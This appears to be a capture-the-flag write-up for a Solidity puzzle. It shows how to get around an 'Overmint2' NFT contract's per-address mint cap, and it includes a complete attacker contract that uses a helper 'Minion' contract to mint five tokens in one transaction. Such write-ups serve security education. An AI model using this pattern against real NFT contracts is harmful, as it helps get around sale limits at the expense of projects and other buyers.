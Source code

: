 ### Exploit

In a public mint, people can generally mint as many NFTs as they want to, either by minting over and over or by colluding with other buyers. The only challenge here is that we have to mint 5 tokens _in a single transaction_.

First, notice that the `mint` function's `require` prevents us from minting 5 tokens to a single address - it only allows us to mint 4. Based on the short error message, it's hard to say if the intention was to cap the mint at 3 or 4. In any case, the above implementation allows us to mint a total of 4 tokens to an attacker contract by calling `mint` multiple times via a for-loop.

However, this is not yet enough to solve the riddle. To mint the fifth NFT, we can make use of an accomplice/minion contract that mints the remaining NFT for us.

To ensure all these steps happen within a single transaction (the deployment transaction), we have to execute all of these steps inside the constructor of our attacker. Also, notice that our attacker and minion contracts have to send the tokens to the EOA that initiated the attack for the test suite to confirm that the exploit has been successful.

_Overmint2Attacker.sol_
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "./Overmint2.sol";

contract Minion {
    Overmint2 public overmint2;

    constructor(address _overmint2Address) {
        overmint2 = Overmint2(_overmint2Address);
    }

    function attack() public {
        overmint2.mint();
        overmint2.transferFrom(address(this), tx.origin, 5);
    }
}

contract Overmint2Attacker {
    Overmint2 public overmint2;

    constructor(address _overmint2Address) {
        overmint2 = Overmint2(_overmint2Address);
        Minion minion = new Minion(_overmint2Address);

        for (uint256 i; i < 4; i++) {
            overmint2.mint();
        }

        for (uint256 i = 1; i < 5; i++) {
            overmint2.transferFrom(address(this), msg.sender, i);
        }

        minion.attack();
    }
}
```
